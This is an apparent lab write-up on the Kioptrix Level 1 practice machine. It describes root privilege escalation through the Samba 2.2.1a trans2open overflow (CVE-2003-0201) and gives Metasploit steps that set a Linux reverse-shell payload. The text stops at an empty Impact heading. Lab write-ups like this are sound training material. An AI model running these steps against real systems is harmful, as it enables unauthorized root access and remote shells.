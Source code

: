 # Kioptrix L1: Privilege Escalation using Samba Version

## Summary:
Due to the available version of Samba in Kioptrix, an attacker after enumerate this service can escalate root privileges.

## Technical Details:
The available version of Samba found is 2.2.1a is vulnerable to a buffer overflow called **trans2open** according to this **Common Vulnerabilities and Exposure 2003-0201 [(CVE-2003-0201)](https://www.cvedetails.com/cve/CVE-2003-0201/)** 
using arbitraty code -a payload for example- it is possible to obtain root privileges. 

##Steps to reproduce using metasploit and a terminal:
1) msfconsole
2) search trans2open
3) use 1
4) set RHOSTS <ip_of_kioptrixl1>
5) set payload linux/x86/shell_reverse_tcp
6) run

##Supporting Material:
![samba_trans2open_01.png](./media/samba_trans2open_01.png?raw=true "Gaining root Privilege")

![samba_trans2open_02.png](./media/samba_trans2open_02.png?raw=true "Directory Listing")

![samba_trans2open_03.png](./media/samba_trans2open_03.png?raw=true "Accesing to mail server")

##Impact: